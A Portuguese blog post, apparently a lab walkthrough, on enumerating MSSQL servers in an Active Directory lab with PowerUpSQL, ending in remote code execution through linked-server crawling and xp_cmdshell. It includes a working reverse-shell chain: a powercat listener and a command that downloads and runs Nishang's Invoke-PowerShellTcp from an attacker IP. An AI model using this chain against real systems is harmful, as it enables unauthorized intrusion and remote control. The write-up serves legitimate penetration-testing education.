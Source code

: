 ```yaml
---
title: "Active Directory - Enumeração MSSQL"
tags: [Windows, Active Directory]
categories: Active Directory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/mssql-server.png)

# Considerações Iniciais

Agora vamos iniciar a enumeração do MSSQL Server desse AD, todo AD vai ter um servidor SQL, uma vez que é onde são guardados os dados.

A ferramenta que utilizarei para essa seção é o PowerUpSql.ps1, um script escrito em PowerShell que possibilita a enumeração rápida e precisa do servidor SQL de um AD.

Link para download do Script

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

E claro, obviamente, esconderei todas as menções para qual ambiente estou realizando a enumeração, aqui é apenas para fins didáticos!

LEIAM O POST DE REFERÊNCIA, MUITO IMPORTANTE PARA A COMPREENSÃO DO QUE SERÁ EXECUTADO AQUI

*Referência:*

https://blog.netspi.com/powerupsql-powershell-toolkit-attacking-sql-server/

# Enumeração de Servidores SQL

A ideia inicial aqui é termos qualquer tipo de acesso, mesmo que publico ao banco de dados do SQL, tendo esse acesso podemos escalar privilégios dentro dele e virar SA (sysadmin) dentro dele, podendo por exemplo habilitar o xp_cmdshell e executar comandos cmd dentro da máquina do SQL e conseguir assim um reverse shell!

Vamos lá

## Listando SPN

Ferramenta utilizada PowerUpSql.ps1

https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.ps1

Listando todos os SQL do Laboratório que estão com SPN (Service Principal Name) habilitados

`Get-SQLInstanceDomain`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql.png)

Temos um total de 5 instância de SQL sendo executadas nesse laboratório.

## Verificando Conectividade com o servidor

Agora devemos verificar se algum deles é acessível, e sendo acessível podemos logar com algum usuário

`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql1.png)

Verificamos que temos uma Acessível! Então podemos testar comandos através da chain dela agora

## Testando a chain

Para ver se temos algum tipo de execução de comando dentro do servidor sql temos que testar a chain dele, e ver se em algum desses pontos temos execução de comandos

`Get-SQLServerLinkCrawl -Instance Instancia_acessível`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql2.png)

Verificamos que ele faz uma chain em vários pontos, então é bem provável que teremos algum tipo de RCE em alguma parte dessa chain

## Executando Comandos

`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'whoami'" | ft`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql3.png)

Show! Temos RCE dentro dessa máquina!

## Ganhando um Reverse Shell

Agora vamos pegar um reverse shell nela!

Iremos utilizar o `Invoke-PowerShellTCP.ps1` do Nishang

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

O `HFS` para hospedar nosso servidor web onde o servidor remoto irá fazer as requisições

https://www.rejetto.com/hfs/

E o `powercat` para receber a conexão reversa

https://github.com/besimorhino/powercat/blob/master/powercat.ps1

Setamos o powercat na porta 443 para receber a conexão reversa

`powercat -l -v -p 443 -t 1000`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev.png)

Arrumamos (colocamos a chamada da função no final dela pra automaticamente executar o reverse shell) e upamos o Invoke-PowerShellTCP.ps1 no HFS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev1.png)

Agora chamamos no crawl nosso reverse shell

`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1'')'" | ft`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev2.png)

Recebemos a conexão reversa da máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev3.png)

# Conclusão

Pronto! Conseguimos um reverse shell através de um database link dentro do MSSQL

## Comandos Utilizados

`Get-SQLInstanceDomain`
`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'whoami'" | ft`
`powercat -l -v -p 443 -t 1000`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1'')'" | ft`